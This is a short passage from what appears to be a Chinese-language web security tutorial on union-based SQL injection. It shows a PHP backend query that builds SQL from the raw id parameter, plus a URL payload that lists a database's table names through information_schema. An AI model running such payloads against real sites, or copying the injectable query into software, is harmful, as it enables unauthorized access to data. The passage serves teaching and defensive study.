 ![image.png](../../_img/02-Web安全/01-基础知识/1664342919896-46096f03-1ca3-461a-9cb0-cca02fc47f49.png)
![image.png](../../_img/02-Web安全/01-基础知识/1664342935071-2be1223a-5cce-40c8-b113-66e77e3083cc.png)



## 2.3、查询数据表
**2.3.1、Union注入**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="select * from users where id='$id' limit 0,1"`

当我们输入：
```
http://xmtxsec.top/test.php/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

